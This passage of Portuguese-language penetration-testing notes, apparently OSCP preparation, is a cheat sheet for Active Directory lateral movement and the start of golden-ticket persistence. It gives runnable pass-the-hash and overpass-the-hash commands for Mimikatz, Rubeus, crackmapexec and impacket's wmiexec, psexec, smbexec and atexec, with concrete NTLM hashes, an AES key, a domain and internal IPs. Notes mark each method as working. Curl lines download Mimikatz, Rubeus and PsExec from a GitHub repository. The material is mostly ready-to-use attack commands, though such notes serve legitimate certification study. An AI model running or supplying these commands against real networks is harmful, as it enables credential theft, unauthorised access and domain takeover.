 ```
Sekurlsa::logonpasswords
```
##### LATERAL MOVEMENT MIMIKATZ - OVER PASS THE HASH WINDOWS PARA WINDOWS (FUNCIONOU COM O PSEXEC)
```
Privilege::debug
Sekurlsa::pth /user:goku /domain:tech.local /ntlm:4533aaba903fbbe1377deb1642743283 /run:powershell.exe
Sekurlsa::pth /user:tech\goku /domain:tech.local /ntlm:4533aaba903fbbe1377deb1642743283 /run:powershell.exe
Sekurlsa::pth /user:goku /domain:tech.local /aes256:e22ebc7f0546cb07424c6b261596c27440b876c01aa3af04ace01da58fdea26f /run:powershell.exe
```
O USUARIO SEMPRE CONTINUA O MESMO INICIAL.
```
curl https://github.com/n0ts0cial/oscp/raw/main/PsExec.exe -outfile PsExec.exe
psexec \\server01 cmd
```
##### LATERAL MOVEMENT RUBEUS - OVER PASS THE HASH WINDOWS PARA WINDOWS (FUNCIONOU LINDO)
```
curl https://github.com/n0ts0cial/oscp/raw/main/rubeus/Rubeus.exe -Outfile rubeus.exe
.\Rubeus.exe asktgt /domain:tech.local /user:goku /rc4:4533aaba903fbbe1377deb1642743283 /ptt
```

##### LATERAL MOVEMENT CRACKMAPEXEC - OVER PASS THE HASH LINUX PARA WINDOWS (FUNCIONOU - COMANDO)
```
crackmapexec smb 172.31.13.86 -u goku -H 4533aaba903fbbe1377deb1642743283 -d tech.local -x whoami
```
##### LATERAL MOVEMENT IMPACKET-WMIEXEC - OVER PASS THE HASH LINUX PARA WINDOWS (FUNCIONOU - PROMPT COMO O USUARIO)
```
impacket-wmiexec tech.local/goku@172.31.11.96 -hashes 00000000000000000000000000000000:4533aaba903fbbe1377deb1642743283
```
##### LATERAL MOVEMENT IMPACKET-PSEXEC - OVER PASS THE HASH LINUX PARA WINDOWS (FUNCIONOU - PROMPT COMO O NTAUTHORITY)
```
impacket-psexec tech.local/goku@172.31.11.96 -hashes 00000000000000000000000000000000:4533aaba903fbbe1377deb1642743283
```
##### LATERAL MOVEMENT IMPACKET-SMBEXEC - OVER PASS THE HASH LINUX PARA WINDOWS (FUNCIONOU - PROMPT COMO O NTAUTHORITY)
```
impacket-smbexec tech.local/goku@172.31.11.96 -hashes 00000000000000000000000000000000:4533aaba903fbbe1377deb1642743283
```
##### LATERAL MOVEMENT IMPACKET-ATEXEC - OVER PASS THE HASH LINUX PARA WINDOWS (FUNCIONOU - TAREFA AGENDADA COMO NTAUTHORITY)
```
impacket-atexec -hashes 00000000000000000000000000000000:4533aaba903fbbe1377deb1642743283 tech.local/goku@172.31.11.96 whoami
```
# PERSISTENCE - ACTIVE DIRECTORY
## GOLDEN TICKET MIMIKATZ
##### GOLDEN TICKET MIMIKATZ - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/mimikatz_trunk.zip -Outfile mimikatz_trunk.zip
expand-archive -path ".\mimikatz_trunk.zip" -destinationpath ".\"
cd x64
```